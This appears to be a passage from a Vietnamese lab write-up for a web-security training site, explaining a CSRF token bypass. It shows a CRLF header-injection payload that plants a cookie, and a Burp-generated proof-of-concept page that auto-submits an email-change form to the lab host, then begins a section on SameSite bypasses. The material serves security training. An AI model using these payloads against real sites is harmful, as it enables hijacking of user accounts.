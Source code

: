 Như vậy, ý tưởng là chèn csrf của <b>wiener</b> vào tham số <b>LastSearchTerm</b> trong cookie thông qua đối số <b>search</b> rồi lấy url request get gửi cho <b>carlos</b>. Khi <b>carlos</b> truy nhập vào url, cookie csrf của <b>wiener</b> sẽ thay thế csrf do server cấp riêng cho <b>carlos</b>

### Chèn csrf thế nào?

Dựa vào phản hồi <b>Set-Cookie</b>
> Set-Cookie: LastSearchTerm=123; Secure; HttpOnly

Ta có thể sử dụng ký tự <b>CR: %0d</b> và <b> LF:%0a</b> để ngắt dòng trong header response:

![img](../images/web/csrf/1.png)

decode payload:
```
search=123
Set-Cookie: csrfKey=aRETGwXuQCtitoMiG4BLO9AYAMK1Yfqc; SameSite=None
```
Sử dụng CSRF Poc Generate 
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aa0008f04f012ed81862506001200a3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1235&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="06gstBgUvaN7ZbTgDTUhtTyvJl8S34eS" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aa0008f04f012ed81862506001200a3.web-security-academy.net/?search=hello%0d%0aSet-Cookie:%20csrfKey=aRETGwXuQCtitoMiG4BLO9AYAMK1Yfqc;SameSite=None;" onerror="document.forms[0].submit()">
  </body>
</html>

```

## Case 5: Các kỹ thuật bypass SameSite

### I. Lý thuyết
Request từ site này đến site kia được gọi là SameSite nếu domain name có:
- Có cùng scheme
- Có cùng TLD và TLD+1
